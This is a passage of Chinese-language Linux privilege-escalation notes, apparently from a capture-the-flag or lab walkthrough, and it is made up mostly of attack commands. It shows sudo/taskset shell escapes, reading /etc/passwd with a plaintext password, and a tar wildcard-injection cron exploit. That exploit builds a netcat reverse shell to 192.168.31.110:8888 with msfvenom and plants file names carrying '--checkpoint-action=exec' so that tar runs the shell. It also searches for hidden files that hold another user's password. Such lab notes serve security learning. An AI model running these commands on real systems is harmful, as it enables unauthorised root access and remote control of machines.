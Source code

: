 script

**sudo script -q /dev/null**

taskset

**taskset 1 /bin/sh -p**

------

**密码破解**

cat /etc/passwd

insecurity 密码P@ssw0rd

su insecurity切换到这个用户权限

------

## tar命令注入

cat /etc/crontab

ls -l /etc/cron.daily/backup

cat /etc/cron.daily/backup

**for i in $(ls /home); do cd /home/$i && /bin/tar -zcf /etc/backups/home-$i.tgz \*; done**

**msfvenom -p cmd/unix/reverse_netcat lhost=192.168.31.110 lport=8888**

**得到**

**mkfifo /tmp/mwbtz; nc 192.168.31.110 8888 0</tmp/mwbtz | /bin/sh >/tmp/mwbtz 2>&1; rm /tmp/mwbtz**

**echo “mkfifo /tmp/mwbtz; nc 192.168.31.110 8888 0</tmp/mwbtz | /bin/sh >/tmp/mwbtz 2>&1; rm /tmp/mwbtz” > shell.sh && chmod +x shell.sh**

**echo > “—checkpoint-action=exec=sh shell.sh”**

**echo > “—checkpoint=1”**

------

## 寻找敏感的隐藏文件

```
find / -name ".*" -type f -path "/home/*" -exec ls -al {} \; 
```

发现/home/susan/.secret

之后可以看到susan的密码

su susan就可以切换到susan的权限

------

## SID提权
